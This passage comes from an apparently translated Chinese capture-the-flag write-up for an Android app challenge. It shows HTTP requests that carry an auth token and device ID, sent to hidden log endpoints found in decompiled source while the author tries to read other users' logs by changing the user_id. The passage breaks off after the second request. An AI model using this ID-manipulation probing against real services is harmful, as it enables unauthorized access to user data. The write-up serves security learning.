 ```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:43:52 GMT
Content-Type: application/json
Content-Length: 69
Connection: close{"code":400,"data":{"err":"user_id manipulation has been detected"}}
```

**在这个时候，我去了 Android 的反编译源代码，寻找一个隐藏的活动或类似的代码。我发现[AllUsersLogActivity.java 的](https://github.com/Voorivex/ctf/blob/master/asis_sharel_files/shareL/sources/com/asisctf/ShareL/AllUsersLogActivity.java)文件包含了两个端点:**

```
/logs/user_id/
/logs/all/log_id/
```

**我试过了:**

```
GET /logs/user_id/1 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**获得:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:52:08 GMT
Content-Type: application/json
Content-Length: 48
Connection: close{"code":403,"data":{"err":"permission denied"}}
```

**不过，我把我的`user_id`:**

```
GET /logs/user_id/6 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```
